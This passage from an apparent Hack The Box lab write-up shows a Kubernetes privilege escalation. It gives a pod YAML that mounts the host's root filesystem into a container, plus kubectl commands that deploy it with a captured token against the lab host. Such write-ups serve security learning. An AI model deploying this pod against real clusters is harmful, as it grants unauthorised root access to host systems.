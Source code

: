 #### Strategy

Just like in
[Unobtainium](/htb-unobtainium.md#filesystem-as-root), the
trick here is to create a pod (container) that has the root file system
mapped into it. Then I can execute in the pod, and access the mapped
volume, which is the full file system of the host.

#### Pod Description

I'll grab the same YAML I used in Unbotainium, and update it for this
scenario:



    apiVersion: v1 
    kind: Pod
    metadata:
      name: 0xdf-pod
      namespace: default
    spec:
      containers:
      - name: 0xdf-pod
        image: nginx:1.14.2
        volumeMounts: 
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:  
          path: /
      automountServiceAccountToken: true
      hostNetwork: true



The `name` is arbitrary. The `namespace` is the one I've been working
out of, `default`. I'll use the image that already exists here,
`nginx:1.14.2`. The rest is just setting up the `volumes` /
`volumeMounts`. The `volumeMount` says that I'm going to mount a
`volume` named `hostfs` into the container at the mount point `/mnt`.
Then that volume is defined as `/` on the host file system.

#### Execute Pod

`kubectl apply` is used to start the pod:



    oxdf@hacky$ kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    pod/0xdf-pod created

    oxdf@hacky$ kubectl get pod --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    NAME       READY   STATUS    RESTARTS   AGE
    0xdf-pod   1/1     Running   0          13s
    nginx      1/1     Running   0          15h

